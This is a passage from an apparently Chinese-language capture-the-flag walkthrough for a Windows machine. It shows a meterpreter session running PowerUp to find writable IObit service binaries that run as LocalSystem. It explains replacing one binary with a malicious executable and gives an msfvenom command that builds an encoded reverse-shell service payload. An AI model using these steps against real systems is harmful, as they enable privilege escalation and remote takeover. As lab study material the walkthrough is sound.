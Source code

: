 ```

      ```
      meterpreter > load powershell 
      Loading extension powershell...Success.
      PS > Import-Module .\PowerUp.ps1
      PS > Invoke-AllChecks
      PS > Invoke-AllChecks
      ···
      ServiceName                     : AdvancedSystemCareService9
      Path                            : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
      ModifiableFile                  : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
      ModifiableFilePermissions       : {WriteAttributes, Synchronize, ReadControl, ReadData/ListDirectory...}
      ModifiableFileIdentityReference : STEELMOUNTAIN\bill
      StartName                       : LocalSystem
      AbuseFunction                   : Install-ServiceBinary -Name 'AdvancedSystemCareService9'
      CanRestart                      : True
      Name                            : AdvancedSystemCareService9
      Check                           : Modifiable Service Files

      ServiceName                     : IObitUnSvr
      Path                            : C:\Program Files (x86)\IObit\IObit Uninstaller\IUService.exe
      ModifiableFile                  : C:\Program Files (x86)\IObit\IObit Uninstaller\IUService.exe
      ModifiableFilePermissions       : {WriteAttributes, Synchronize, ReadControl, ReadData/ListDirectory...}
      ModifiableFileIdentityReference : STEELMOUNTAIN\bill
      StartName                       : LocalSystem
      AbuseFunction                   : Install-ServiceBinary -Name 'IObitUnSvr'
      CanRestart                      : False
      Name                            : IObitUnSvr
      Check                           : Modifiable Service Files

      ServiceName                     : LiveUpdateSvc
      Path                            : C:\Program Files (x86)\IObit\LiveUpdate\LiveUpdate.exe
      ModifiableFile                  : C:\Program Files (x86)\IObit\LiveUpdate\LiveUpdate.exe
      ModifiableFilePermissions       : {WriteAttributes, Synchronize, ReadControl, ReadData/ListDirectory...}
      ModifiableFileIdentityReference : STEELMOUNTAIN\bill
      StartName                       : LocalSystem
      AbuseFunction                   : Install-ServiceBinary -Name 'LiveUpdateSvc'
      CanRestart                      : False
      Name                            : LiveUpdateSvc
      Check                           : Modifiable Service Files
      ```
         
      + 有一个特定服务的 CanRestart 选项被设置为 true，此选项被设置为 true 后，就能够在系统上重新启动此服务；而且这个应用程序的目录也是可写的，这意味着我们可以用一个恶意应用程序替换合法的应用程序，一旦服务重新启动，我们的恶意程序将运行。

         ```
         ServiceName : AdvancedSystemCareService9
         Path : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe     
         ```

+ msfvenom可用于生成反向shell的payload并将其输出为windows可执行文件：

   ```
   msfvenom -p windows/shell_reverse_tcp LHOST=<local_ip> LPORT=<local_port> -e x86/shikata_ga_nai -f exe-service -o filename.exe
   ```
   ```